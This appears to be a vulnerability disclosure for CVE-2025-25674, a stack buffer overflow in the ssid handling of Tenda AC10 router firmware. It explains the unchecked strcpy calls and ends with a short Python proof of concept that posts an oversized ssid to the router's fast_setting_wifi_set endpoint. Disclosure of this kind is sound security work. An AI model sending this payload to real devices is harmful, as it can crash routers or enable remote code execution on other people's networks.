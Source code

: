 # CVE-2025-25674

## **Overview**

Firmware download website: https://www.tenda.com.cn/material/show/102734

## **Vulnerability details**

The Tenda **AC10 V1.0V15.03.06.23** has a stack overflow vulnerability located in the form_fast_setting_wifi_set function.The ssid variable receives the ssid parameter from a POST request and is later assigned to the s and dest variable. However, since the user has control over the input of ssid, the statement strcpy(ssid_24g, ssid); and strcpy(ssid_5g, ssid); leads to a buffer overflow. There is no size check, so the user-provided ssid can exceed the allocated size of the s array and dest array, thus triggering this security vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data. 

![img](https://cdn.nlark.com/yuque/0/2025/png/34322964/1737798643488-b37eeb4a-d850-412d-a8d8-3e68948336c1.png)

## **PoC**

```python
import requests 
ip ='192.168.0.100:80' 
url =f"http://{ip}/goform/fast_setting_wifi_set" 
data ={"ssid":'a'*0x100} 
ret = requests.post(url, data)
```
